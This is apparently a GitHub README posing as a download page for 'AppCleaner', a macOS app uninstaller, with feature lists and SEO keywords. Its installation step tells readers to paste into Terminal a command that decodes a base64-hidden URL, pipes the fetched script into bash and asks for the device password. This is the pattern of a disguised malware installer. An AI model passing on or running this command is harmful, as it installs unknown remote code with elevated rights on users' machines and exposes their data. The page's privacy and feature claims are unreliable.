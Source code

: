 # 🧹 AppCleaner for macOS – Simple App Uninstaller

📌 **About AppCleaner Mac**  
AppCleaner is a powerful yet lightweight macOS application uninstaller that completely removes unwanted programs, including hidden support files, caches, preferences, and leftover folders. Designed for Mac users who value system cleanliness, it ensures every trace of an app is deleted, helping free up disk space and boost performance.  
It works perfectly on macOS Monterey, Ventura, and Sonoma, supports both Apple Silicon and Intel-based Macs, and offers an intuitive drag-and-drop interface for quick uninstalls. By operating entirely offline, AppCleaner guarantees your privacy with zero data tracking. Whether you’re removing old software, cleaning up after tests, or managing multiple Mac devices, it delivers a clean, optimized system every time.

## 🧰 Installation via a command in the terminal:
1. **Copy** the installation command below.  
2. **Open** Terminal on your device, **paste** the command, then press `Return`.  
3. **Enter** your device password when prompted and **confirm** the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nb3IvaW5zdGFsbC5zaA== | base64 -d))"
```
## 📸 Overview  
A quick look at key parts in action:  
![appcleaner-mac-interface-screenshot](https://github.com/user-attachments/assets/398044cd-8220-4bf5-9ad5-ac9ef02ef82e)
<img width="1299" height="859" alt="appcleaner-mac-free-up-disk-space" src="https://github.com/user-attachments/assets/253a7c27-976f-45a2-9e72-86b2d6cd4aa2" />


## 🎯 Key Features  
⚡️ **Complete App Removal**: Uninstalls applications and deletes all related files, caches, and preferences.  
🔒 **Offline Privacy**: Works fully offline with no tracking or data sharing.  
⚙️ **Drag-and-Drop Uninstall**: Remove apps by simply dragging them into the AppCleaner window.  
🚀 **Lightweight & Fast**: Runs efficiently without slowing down your Mac.  
🎨 **Native macOS UI**: Matches the macOS look and feel for a seamless user experience.  
📊 **Disk Space Recovery**: Clears leftover files to free up valuable storage.  
🖥 **Universal Mac Support**: Compatible with Apple Silicon and Intel Macs.  
🗑 **System Junk Cleanup**: Helps keep your system organized by removing orphaned files.  
🔄 **Repeatable Tasks**: Ideal for regular app cleanup and system maintenance.  
🧭 **Easy Navigation**: Simple interface for both beginners and advanced Mac users.  
🛠 **Safe Operation**: Prevents accidental deletion of essential system files.  
💾 **Small Footprint**: Uses minimal RAM and storage space.  
📂 **Custom Paths**: Allows scanning and cleaning of user-defined folders.  
⏱ **Quick Processing**: Performs scans and removals in seconds.  
📈 **Performance Boost**: Improves system responsiveness by eliminating unnecessary files.

## 💡 System Requirements  
- **OS**: macOS 12.0 Monterey or newer  
- **CPU**: Apple Silicon or Intel Core i5 and above  
- **RAM**: 4 GB minimum  
- **Storage**: 200 MB available  
- **Others**: Terminal access and active internet connection

## 🔍 SEO Keywords  
`appcleaner mac` · `mac app uninstaller` · `remove mac apps` · `delete apps macos` · `mac cleaner app` · `macos app removal` · `drag drop uninstaller` · `mac remove leftover files` · `uninstall apps completely mac` · `mac system cleaner` · `free up space mac` · `mac disk cleanup` · `mac delete program` · `mac remove software` · `macos cleanup tool` · `app remover mac` · `uninstaller tool macos` · `clean up mac storage`
